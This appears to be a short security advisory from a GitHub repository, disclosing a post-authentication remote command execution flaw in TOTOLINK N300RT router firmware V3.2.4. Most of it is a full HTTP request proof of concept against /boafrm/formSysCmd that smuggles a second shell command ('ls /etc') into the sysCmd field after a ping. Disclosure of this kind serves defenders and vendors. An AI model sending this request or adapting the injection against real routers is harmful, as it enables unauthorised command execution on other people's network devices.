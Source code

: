 ## TOTOLINK-N300RT-RCE
Vendor:TOTOLINK
Product:TOTOLINK-N300RT
Firmware Version: TOTOLINK-N300RT  V3.2.4-B20180730.0906
Link:http://www.totolink.cn/

### description
TOTOLINK-N300RT has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that

POC：
```
POST /boafrm/formSysCmd HTTP/1.1
Host: 192.168.1.1:80
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1:80
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0
Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,ima
ge/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
sysCmdselect=5&sysCmdselects=0&apply=Run+Command&sysCmd=p
ing+8.8.8.8;ls /etc&submit-url=%2Fsyscmd.htm&msg=
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/471c1696-2a8f-4640-b739-cef4b9d3d516
